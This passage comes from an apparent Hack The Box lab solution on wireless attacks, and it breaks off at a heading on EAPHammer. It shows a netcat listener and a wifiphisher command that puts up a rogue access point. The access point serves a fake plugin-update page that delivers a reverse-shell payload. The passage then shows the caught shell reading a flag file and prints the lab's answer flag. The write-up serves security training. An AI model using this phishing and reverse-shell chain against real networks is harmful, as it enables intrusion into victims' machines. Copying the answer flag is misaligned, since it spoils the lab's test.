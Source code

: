 ```
wifi@twins:~$ nc -lvnp 4444

Listening on 0.0.0.0 4444
```

From a new terminal tab, students need to launch `wifiphisher`, selecting the `plugin_update` attack and specifying the `shell.elf` file as the payload.

Code: shell

```shell
sudo wifiphisher -aI wlan0 -eI wlan1 -p plugin_update  --payload-path /home/wifi/shell.elf -kN
```

```
wifi@twins:~$ sudo wifiphisher -aI wlan0 -eI wlan1 -p plugin_update  --payload-path /home/wifi/shell.elf -kN
Authorization required, but no authorization protocol specified
Authorization required, but no authorization protocol specified
[*] Starting Wifiphisher 1.4GIT ( https://wifiphisher.org ) at 2025-03-06 18:42
[+] Timezone detected. Setting channel range to 1-13
[+] Selecting wlan1 interface for the deauthentication attack
[+] Selecting wlan0 interface for creating the rogue Access Point
```

Students need to press `Enter` to select the `HTB-Wireless` network as the target.

![[HTB Solutions/Others/z. images/1964c3d71f728406205f40a56bf979ad_MD5.jpg]]

While attack runs, students need to keep an eye on their netcat listener. When the victim connects to the rogue AP and downloads the payload from the fake Plugin Update site, a reverse shell will be executed. `Note: This attack may need to be ran multiple times before it is successful.`

```
Listening on 0.0.0.0 4444

Connection received on 10.0.0.23 41862
```

Once the reverse shell is established, students need to quickly examine the contents of the `flag.txt` file.

```
Listening on 0.0.0.0 4444

Connection received on 10.0.0.23 41862
cat flag.txt
HTB{hidden}
```

Answer: `HTB{Cli1nt_C0mpromIs3}`

# Using EAPHammer

## Question 1
